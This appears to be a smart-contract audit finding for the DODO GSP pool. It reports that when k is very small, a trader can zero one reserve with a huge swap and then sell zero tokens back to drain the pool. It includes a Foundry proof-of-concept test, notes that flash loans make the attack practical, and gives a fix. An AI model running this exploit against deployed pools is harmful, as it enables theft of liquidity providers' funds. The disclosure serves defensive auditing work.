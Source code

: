 Helpful Holographic Alligator

high

# PMMPricing::sellBaseToken Trader can drain pool by removing all reserves on one side

## Summary
A trader can set the reserve to zero on one side of the pool by making a very large swap. The computed target for the zeroed token would then be zero, and by doing a reverse swap of zero amount, the attacker gets all the liquidity in the pool minus lpFee.

Note that this works for extremely small but non-zero k values (to determine).

## Vulnerability Detail

### Scenario
Pool setting:
    base: USDT
    quote: USDC

k = 1 wei; // important that it is not 1 nor 0, since those are edge cases in calculations

Initial reserves: 1M USDT and 1M USDC

By providing a very large amount of USDT, the attacker can bring the reserve of USDC to zero.

Once the reserve of USDC is exactly zero, the attacker can sell 0 USDC to withdraw the whole USDT balance minus USDT target, essentially getting back the amount of USDT invested, and keeping the drained USDC.

This is because in the edge case when `payBaseAmount == backToOnePayBase`, the target is not checked to not be zero as in `_GeneralIntegrate` or `_SolveQuadraticForTrade`:
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/DODOStablePool/lib/PMMPricing.sol#L63-L67

During the POC we use k == 1 and lpFee == 0, but k can be bigger (determine to which extent).

### POC

Modify `DeployGSP.s.sol`:
```diff
-   uint256 constant K = 500000000000000;
+   uint256 constant K = 1;
```

Add following test to `GSPTrader.t.sol`:
```solidity
    function test_sellBase() public {
        // transfer some tokens to USER
        deal(address(dai), USER, 1000*BASE_RESERVE);
        deal(address(usdc), USER, 10*QUOTE_RESERVE);

        // User buys shares
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_RESERVE);
        usdc.transfer(address(gsp), QUOTE_RESERVE);
        gsp.buyShares(USER);
        vm.stopPrank();

        PMMPricing.PMMState memory state = gsp.getPMMState();

        console.log("BEFORE SELLING");
        console.log(state.B0); // 10000000000000000000
        console.log(state.B); // 10000000000000000000
        console.log(state.Q0); // 10000000
        console.log(state.Q); // 10000000
        console.log(uint32(state.R));

        // User sells base
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_RESERVE);
        gsp.sellBase(USER);

        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_RESERVE);
        gsp.sellBase(USER);

        state = gsp.getPMMState();
        console.log("State after Sell base");
        console.log(state.B0); // 10000000000000000000
        console.log(state.B); // 30000000000000000000
        console.log(state.Q0); // 0
        console.log(state.Q); // 0
        console.log(uint32(state.R));

        //Selling zero quote
        gsp.sellQuote(USER);

        state = gsp.getPMMState();
        console.log("State after Sell base");
        console.log(state.B0); // 10000000000000000000
        console.log(state.B); // 10000000000000000000 -> Back to initial reserve
        console.log(state.Q0); // 0
        console.log(state.Q); // 0 -> whole supply of usdc has been drained
        console.log(uint32(state.R));
    }
```

## Impact
When k is very small, an attacker can sell a very large amount to drain liquidity on one side, and then get back invested amount by swapping for zero in the opposite direction. 

> Note that a flash-loan can be used to carry this attack, meaning that a very large amount of funds can be used in practice

## Code Snippet

## Tool used

Manual Review

## Recommendation
Check that target is not zero when in the case `payBaseAmount == backToOnePayBase`:
```diff
} else if (payBaseAmount == backToOnePayBase) {
    // case 2.2: R status changes to ONE
+   require(state.B0 != 0, "Zero target");
    receiveQuoteAmount = backToOneReceiveQuote;
    newR = RState.ONE;
}
```